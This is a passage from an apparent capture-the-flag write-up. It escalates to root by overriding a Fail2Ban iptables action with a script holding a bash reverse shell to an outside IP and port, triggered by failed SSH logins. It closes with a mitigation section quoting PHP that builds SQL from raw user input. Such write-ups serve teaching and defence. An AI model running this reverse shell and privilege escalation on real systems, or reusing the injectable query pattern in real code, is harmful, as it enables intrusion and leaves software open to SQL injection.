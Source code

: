 ```
# Notes.:  Actual command to be executed, including common to all calls options
# Values:  STRING
iptables = iptables <lockingopt>
```

This file also included `/etc/fail2ban/action.d/iptables-common.local` to allow overriding some options. And this file did not exists. So I could create it and replace the call to iptables by a reverse shell. 

I create my fake iptables command. 

```bash
michael@trick:/etc/fail2ban$ cat /tmp/iptables
#!/bin/sh
bash -c 'bash -i >& /dev/tcp/10.10.14.130/4444 0>&1'
```

Then I created the override file to call my command instead of iptables and I restarted Fail2Ban. 

```bash
michael@trick:/etc/fail2ban$ cat /etc/fail2ban/action.d/iptables-common.local
[Init]

iptables = /tmp/iptables <lockingopt>

michael@trick:/etc/fail2ban$ sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```

Next, I started a netcat listener and tried to ssh to the machine a few times with bad credentials. 


```bash
$ nc -klvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.115.62 35982
bash: cannot set terminal process group (4365): Inappropriate ioctl for device
bash: no job control in this shell
root@trick:/# cd /root
cd /root

root@trick:/root# cat root.txt
cat root.txt
REDACTED
```

## Mitigation

There were a few issues that could be fixed on this box to help prevent it from being hacked. 

The application for the payroll builds all its query by appending user's input to the SQL. This opens all the pages to SQL Injection. It does not even try to escape the data in any way. 

```php
$qry = $this->db->query("SELECT * FROM users where username = '".$username."' and password = '".$password."' ");

$qry = $conn->query("SELECT * FROM employee where id = ".$_GET['id'])->fetch_array();
```
